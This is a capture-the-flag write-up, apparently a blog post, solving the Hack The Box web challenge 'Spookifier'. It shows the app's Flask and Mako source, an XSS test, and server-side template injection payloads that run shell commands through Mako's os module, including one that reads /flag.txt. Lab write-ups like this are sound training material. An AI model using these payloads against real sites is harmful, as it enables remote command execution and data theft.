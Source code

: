 ```yaml
---
title: Spookifier HTB Challenge (English)
image: https://tse1.mm.bing.net/th?id=OIG1.iKzTRYDeUwZgb8AvNvbH&pid=ImgGn
description: Challenge Spookifier HTB [Difuculty very easy]
categories: [Challenge,HackTheBox]
tags: [web,very easy]
---
```



## Introduction

N/A


### Machine Description

- Name: Spookifier

- Goal: Get the flag

- Difficulty: very easy

- Operating System: N/A

- link: [Spookifier](https://app.hackthebox.com/challenges/413)

  

### PDF Link

- PDF: [Link to PDF](https://github.com/juanbelin/Writeups-CTFs-Challenges/blob/main/HTB/Challenges/Challenge%20Spookifier.pdf)


We have this input where whatever we introduce we get their differents font styles:

![](/assets/img/Anexos/Pasted%20image%2020250402090826.png)

![](/assets/img/Anexos/Pasted%20image%2020250402090845.png)

We can try a **XSS Injecton** 
![](/assets/img/Anexos/Pasted%20image%2020250402090924.png)

It's worked, but this is not for this way.

If we check the web files we can affirm it's using _MakoTemplates_

```shell
❯ ls -l
drwxrwxrwx root root 4.0 KB Tue Nov  1 10:20:58 2022  application
.rwxrwxrwx root root 101 B  Tue Nov  1 09:38:18 2022  run.py
❯ cat run.py
───────┬────────────────────────────────────────────────────────────────────────────
       │ File: run.py
───────┼────────────────────────────────────────────────────────────────────────────
   1   │ from application.main import app
   2   │ 
   3   │ app.run(host='0.0.0.0', port=1337, debug=False, use_evalex=False)
```

```shell
❯ cat main.py
───────┬────────────────────────────────────────────────────────────────────────────
       │ File: main.py
───────┼────────────────────────────────────────────────────────────────────────────
   1   │ from flask import Flask, jsonify
   2   │ from application.blueprints.routes import web
   3   │ from flask_mako import MakoTemplates
   4   │ 
   5   │ app = Flask(__name__)
   6   │ MakoTemplates(app)
   7   │ 
   8   │ def response(message):
   9   │     return jsonify({'message': message})
  10   │ 
  11   │ app.register_blueprint(web, url_prefix='/')
  12   │ 
  13   │ @app.errorhandler(404)
  14   │ def not_found(error):
  15   │     return response('404 Not Found'), 404
  16   │ 
  17   │ @app.errorhandler(403)
  18   │ def forbidden(error):
  19   │     return response('403 Forbidden'), 403
  20   │ 
  21   │ @app.errorhandler(400)
  22   │ def bad_request(error):
  23   │     return response('400 Bad Request'), 400
```

So let's try **SSTI**

![](/assets/img/Anexos/Pasted%20image%2020250402091448.png)
it does not work with this payload, let's try with:

```shell
${7*7} 
```

![](/assets/img/Anexos/Pasted%20image%2020250402091506.png)

It worked. This is MakoTemplates so the next step is **command injection**:

```shell
${self.module.cache.util.os.system("id")}
```


![](/assets/img/Anexos/Pasted%20image%2020250402091908.png)

At firts I was not able to see the output, that's why we have to replace `os.system()` with `os.popen().read()`

```shell
${self.module.cache.util.os.popen('id').read()}
```
![](/assets/img/Anexos/Pasted%20image%2020250402092715.png)

Now we're able to see the output and we get the flag!

```shell
${self.module.cache.util.os.popen('cat /flag.txt').read()}
```

![](/assets/img/Anexos/Pasted%20image%2020250402092735.png)